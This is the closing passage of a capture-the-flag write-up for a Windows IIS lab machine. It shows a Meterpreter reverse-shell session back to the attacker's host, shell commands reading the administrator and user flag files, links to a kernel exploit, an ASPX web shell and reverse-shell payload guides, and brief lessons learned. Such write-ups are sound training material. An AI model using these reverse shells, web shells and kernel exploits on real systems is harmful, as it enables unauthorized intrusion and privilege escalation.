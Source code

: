 ```
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 5 opened (10.10.14.27:9005 -> 10.10.10.5:49201) at 2025-05-28 22:09:53 +1000
# create shell
meterpreter > shell
Process 1940 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\Users\Administrator\Desktop

14/01/2021  12:42 ��    <DIR>          .
14/01/2021  12:42 ��    <DIR>          ..
28/05/2025  01:07 ��                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4.687.589.376 bytes free
# root.txt
c:\windows\system32\inetsrv>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
1846c702219f631ba8d19363af324ca3

# user.txt
c:\windows\system32\inetsrv>type C:\Users\babis\Desktop\user.txt
type C:\Users\babis\Desktop\user.txt
2cbe6032e3a7f50d95ef0cf8f0ca713c
```

### Resources
- precompiled exploit - https://github.com/abatchy17/WindowsExploits/tree/master
- exploit 40564 can be used on target - https://www.exploit-db.com/exploits/40564
- msfvenom reverse shells - https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
- apsx web shell - https://github.com/SecWiki/WebShell-2/blob/master/Aspx/Antak%20Webshell.aspx
- winpeas.ps1 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASps1/winPEAS.ps1

### Lesson Learned
- check if upload is allowed in FTP
- try different exploit for kernel exploit
- be patient with remote shells, sometimes network can be very unstable
